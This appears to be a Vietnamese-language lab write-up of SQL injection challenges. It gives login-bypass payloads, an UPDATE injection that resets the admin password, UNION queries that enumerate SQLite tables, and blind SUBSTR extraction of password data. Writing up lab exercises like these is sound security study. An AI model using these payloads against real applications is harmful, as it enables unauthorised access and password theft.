





# SQL Injection 1: Input Box Non-String
- Khi nhập id và pass là a, a. Chương trình thực hiện truy vấn
```SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=or 1=1 -- - AND password = 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'```
- Vậy chương trình đã không kiểm tra đầu vào
payload
```1 or 1=1 -- -```

# SQL Injection 2: Input Box String
- ```SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = 'a' AND password = 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'```
payload
```' OR 1=1 --```

# SQL Injection 3: URL Injection
- Chương trình đã filter các kí tự đặc biệt, tuy nhiên ta có thể inject vào url
```profileID=1' or 1=1 -- -&password=a```

# SQL Injection 4: POST Injection
- ta sử dụng burpsuit

# SQL Injection 5: UPDATE Statement
- Lần này không có bug ở login mà bug ở phần edit profile. Khi ta thực hiện update thông tin thì chương trình thực hiện payload của người dùng mà không kiểm tra


- Solution THM
```
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -
```


# Broken Authentication
```a' or 1=1 -- -```

# Broken Authentication 2


- Để kiểm tra số cột `' UNION SELECT 1,2-- - `
- Leak `' UNION SELECT 1,group_concat(password) FROM users-- -`

# Broken Authentication 3

```
SUBSTR( string, <start>, <length>)
LIMIT <OFFSET>, <LIMIT>
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)
admin' AND length((SELECT password from users where username='admin'))==37-- -
```

# 
- Khi thực hiện note ta thấy chương trình có bug chỗ tên của chúng ta sẽ được truy vấn

- Khi bắt đầu khai thác sqli mình thường kiểm tra version hoặc kiểm tra số cột (vì phải dùng union nên số cột phải bằng nhau) trước, mình tham khảo cheatsheet về sqlite [PayloadsAllTheThings - SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

- `' union select 1,2 -- -` để kiểm tra số cột
- `' union select 1,sqlite_version()-- -` để kiểm tra phiên bản


- Để leak tên table `' union select 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -`
- Leak column `' union select 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' -- -`
- Leak password `' union select 1, group_concat(id,password) from users -- -`

# 
- Lỗi tương tự các bài ở trên

- username: `admin' -- -`

# 
- Kiểm tra cột `') union select 1,2,3,4 --`

- Kiểm tra table `') union select 1,2,3,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --`